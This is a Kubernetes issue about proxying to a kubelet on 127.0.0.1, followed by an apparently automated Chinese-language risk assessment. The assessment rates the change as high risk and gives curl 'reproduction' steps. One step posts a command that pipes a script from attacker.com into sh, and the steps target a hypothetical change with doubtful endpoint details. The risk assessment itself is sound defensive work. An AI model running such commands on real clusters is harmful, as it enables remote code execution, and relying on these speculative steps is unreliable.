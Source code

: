 #### OS version

<details></details>


#### Install tools

<details></details>


#### Container runtime (CRI) and version (if applicable)

<details></details>


#### Related plugins (CNI, CSI, ...) and versions (if applicable)

<details></details>


### 分析结果

**风险定级：**  
高风险

**判断依据：**  
该Issue提出希望kube-api proxy能够代理到运行在`127.0.0.1`上的kubelet，但目前被拒绝，返回`address not allowed`。这是因为Kubernetes的API Server在代理请求时，会检查目标节点的IP地址，只有当IP地址是Global Unicast Address时才允许代理。`127.0.0.1`是本地回环地址（Loopback Address），不属于Global Unicast Address，因此被拒绝。

如果修改API Server的策略，允许代理到`127.0.0.1`，会引入高安全风险。攻击者可以利用这一点，通过API Server代理请求本应仅在本地主机访问的服务，如kubelet的HTTPS端口或其他本地服务，进行未授权的访问。这可能导致以下高危后果：

1. **未经授权的API访问**：攻击者可以访问kubelet的未经认证/授权的API端点，执行如获取容器信息、执行命令等操作。

2. **命令执行和权限提升**：利用未受保护的端点，攻击者可能在主机上执行任意命令，甚至逃逸出容器，获取主机权限。

3. **SSRF攻击**：通过API Server代理，攻击者可以请求本地主机上的其他服务，获取敏感信息或进行进一步的攻击。

根据风险判断标准，解除对`127.0.0.1`的限制，将导致攻击者能够利用API Server代理请求本地主机服务，属于高风险问题。

**复现过程：**

```json
[
  {
    "cmd": "curl -k -H \"Authorization: Bearer $(cat /tmp/attacker_token)\" \"https://api-server:6443/api/v1/nodes/127.0.0.1/proxy/metrics\"",
    "explain": "攻击者通过API Server代理请求，访问kubelet的`metrics`端点，获取节点的敏感指标信息。"
  },
  {
    "cmd": "curl -k -H \"Authorization: Bearer $(cat /tmp/attacker_token)\" -X POST -H \"Content-Type: application/json\" -d '{\"command\": [\"/bin/sh\",\"-c\",\"curl http://attacker.com/shell.sh | sh\"]}' \"https://api-server:6443/api/v1/nodes/127.0.0.1/proxy/run/command\"",
    "explain": "攻击者通过API Server代理请求，远程在节点上执行恶意命令，下载并执行攻击者控制的脚本，实现远程命令执行。"
  }
]
```

---